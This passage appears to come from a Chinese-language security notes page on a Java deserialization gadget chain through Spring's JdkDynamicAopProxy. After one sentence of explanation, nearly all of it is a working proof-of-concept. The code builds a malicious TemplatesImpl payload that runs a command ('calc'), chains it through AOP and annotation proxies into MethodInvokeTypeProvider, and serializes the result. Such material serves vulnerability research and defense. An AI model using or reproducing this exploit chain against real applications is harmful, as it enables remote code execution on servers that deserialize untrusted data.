 ![image-20230926202040784](./../.gitbook/assets/image-20230926202040784.png)

`JdkDynamicAopProxy`将方法调用委托给了`AdvisedSupport`的`target`成员

直接上POC

```java
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
setValue(templates, "_name", "1");

AdvisedSupport as = new AdvisedSupport();
as.setTarget(templates);

Class<?> clazz0 = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> con0 = clazz0.getDeclaredConstructors()[0];
con0.setAccessible(true);
InvocationHandler aopInvocationHandler = (InvocationHandler) con0.newInstance(as);
Object aopProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, aopInvocationHandler);

HashMap<String, Object> map2 = new HashMap<String, Object>();
map2.put("getType", aopProxy);
Class<?> clazz2 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> con2 = clazz2.getDeclaredConstructors()[0];
con2.setAccessible(true);
InvocationHandler invocationHandler2 = (InvocationHandler) con2.newInstance(Target.class, map2);
Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider")}, invocationHandler2);

Class<?> clazz3 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
Constructor<?> con3 = clazz3.getDeclaredConstructors()[0];
con3.setAccessible(true);
Object o = con3.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
setValue(o, "methodName", "getOutputProperties");

ser(o);
```

# Ref

https://su18.org/post/ysoserial-su18-3/#spring1
